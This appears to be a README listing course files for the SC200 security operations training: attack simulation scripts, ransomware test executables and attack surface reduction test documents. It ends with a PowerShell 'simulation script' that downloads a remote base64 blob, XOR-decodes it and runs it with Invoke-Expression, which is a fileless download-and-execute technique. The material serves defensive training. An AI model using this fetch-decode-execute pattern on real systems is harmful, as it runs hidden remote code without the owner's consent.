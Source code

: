 # CourseFiles for SC200

## SC200-Files1

- RS4_WinATP-Intro-Invoice.docm
- BloodHound.ps1
- FilelessATK.ps1
- RS3_WinATP-Intro-Invoice.docm

## SC200-Files2

- SC200-Files2\ASR_CFA_CleanupScript.zip
- SC200-Files2\ASR_SetupScript.zip
- Block_Win32_imports_from_Macro_code_in_Office_92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B.docm
- ransomware_cleanup_encrypt_decrypt.exe
- ransomware_testfile_doc.docm
- TestFile_Block_Office_applications_from_creating_executable_content_3B576869-A4EC-4529-8536-B80A7769E899.docm
- TestFile_Impede_JavaScript_and_VBScript_to_launch_executables_D3E037E1-3EB8-44C8-A917-57927947596D.js
- TestFile_OfficeChildProcess_D4F940AB-401B-4EFC-AADC-AD5F3C50688A.docm
- TestFile_PsexecAndWMICreateProcess_D1E49AAC-8F56-4280-B9BA-993A6D77406C.vbs
- UNSIGNED_ransomware_test_exe.exe

## Web-Links, Blogs und mehr
[hier](/WebLinks.md)

## Cross Product Simulation Script

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt -UseBasicParsing).Content;
Try{ 
    $contentBytes =	[System.Convert]::FromBase64String($base64String) 
} 
Catch { 
    $contentBytes =	[System.Convert]::FromBase64String($base64String.Substring(3)) 
};

$i = 0;	
$decryptedBytes = @();
$contentBytes.foreach{ 
    $decryptedBytes += $_ -bxor $xor[$i];
    $i++;
    if ($i -eq $xor.Length) {
        $i = 0
        }
    };
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
